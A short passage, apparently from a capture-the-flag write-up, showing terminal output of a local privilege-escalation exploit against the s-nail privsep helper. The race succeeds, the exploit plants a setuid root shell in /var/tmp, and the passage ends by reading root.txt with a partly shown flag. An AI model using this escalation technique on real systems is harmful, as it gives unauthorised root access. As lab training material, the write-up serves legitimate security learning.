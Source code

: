 ```
  fewest lines of code in order to reduce attack surface.                                      
  It cannot be run by itself.                               
[.] Race #2 of 1000 ...
...[snip]...
[.] Race #296 of 1000 ...
This is a helper program of "s-nail" (in /usr/bin).
  It is capable of gaining more privileges than "s-nail"
  and will be used to create lock files.
  It's sole purpose is outsourcing of high privileges into
  fewest lines of code in order to reduce attack surface.
  It cannot be run by itself.
[.] Race #297 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 6336 Jun  3 15:09 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)

```

With any of these root shells, I can get `root.txt`:

```

root@help:/root# cat root.txt 
b7fe6082...

```